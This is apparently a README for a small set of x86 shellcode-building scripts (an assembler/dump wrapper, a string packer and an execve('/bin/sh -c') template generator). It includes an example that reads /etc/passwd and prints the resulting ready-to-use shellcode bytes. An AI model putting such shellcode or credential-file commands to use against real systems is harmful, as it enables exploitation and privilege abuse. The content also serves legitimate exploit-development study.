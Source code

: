 reversingtools - x86
====================
x86 Tools and Scripts

<strong>comp_and_dump.sh</strong> - compiles .asm files with nasm, links them with ld, dumps the bytecode with objdump, and turns it into shellcode with '\x' characters in front for quick use. Reads from shl.asm and outputs shl.o and shl (the executable you should test)
<strong>packWord.pl</strong> - packs a string into hex, use the -r option for reverse (good for pushing a string to the stack for shellcode)
<strong>doshcommandinssembly.pl</strong> - takes all arguments, converts them to hex, and uses a template to run execve("/bin/sh", ["/bin/sh", "-c", "{your args}", NULL], NULL) to call them in assembly. Outputs program as shl.asm.
I'll probably update these tools to take in a user supplied output filename (or at the very least cleanup the files after)

Example: ./doshcommandinassembly.pl /bin/cat /etc/passwd & ./comp_and_dump.sh

Output: \x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x89\xc2\x31\xc0\xb0\xd0\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x68\x2d\x63\x11\x11\x66\x89\x44\x24\x02\x89\xe1\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x20\x2f\x65\x74\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe6\x50\x56\x51\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x89\xc3\xb0\x01\xcd\x80

The output can be used where any shellcode would be used and will print the contents of /etc/passwd to the screen

